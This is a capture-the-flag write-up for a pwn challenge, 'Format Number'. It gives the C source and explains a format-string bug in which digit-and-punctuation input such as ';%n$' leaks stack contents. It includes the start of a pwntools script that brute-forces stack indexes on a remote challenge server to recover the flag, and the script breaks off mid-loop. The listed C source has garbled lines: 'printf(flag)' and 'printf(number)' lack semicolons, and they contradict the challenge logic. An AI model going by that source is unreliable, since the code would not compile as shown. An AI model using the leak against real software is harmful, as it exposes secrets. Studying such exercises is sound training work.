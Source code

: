# Pwn
## Format Number
chal:
```c {hl_lines=8}
void check_format(char *format) {
    for (int i = 0; format[i] != '\0'; i++) {
        char c = format[i];
        if (c == '\n') {
            format[i] = '\0';
            return;
        }
        if (!isdigit(c) && !ispunct(c)) {
            printf("Error format !\n");
            exit(1);
        }
    }
}

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    srand(time(NULL));
    int number = rand();
    int fd = open("/home/chal/flag.txt", O_RDONLY);
    char flag[0x100] = {0};
    read(fd, flag, 0xff);
    close(fd);
    printf(flag)
    
    char format[0x10] = {0};
    printf("What format do you want ? ");
    read(0, format, 0xf);
    check_format(format);

    char buffer[0x20] = {0};
    strcpy(buffer, "Format number : %3$");
    strcat(buffer, format);
    strcat(buffer, "d\n");
    printf(number)
    printf(buffer, "Welcome", "~~~", number);

    return 0;
}
```
`check_format` only checks if input consists solely of digits and punctuations, so we can achieve arbitrary stack read by `;%n$`\
we can brute the index to leak the flag loaded on the stack
```py
from pwn import *
from Crypto.Util.number import *
import time

ans=[]
for i in range(100):
    #p = process('./chal')
    p = remote('chals1.ais3.org', 50960)

    p.sendlineafter(b'? ', (';%' +str(i) + '$').encode())
    p.recvuntil(b'Format number : %;')
    n = p.recvline().strip().decode()
```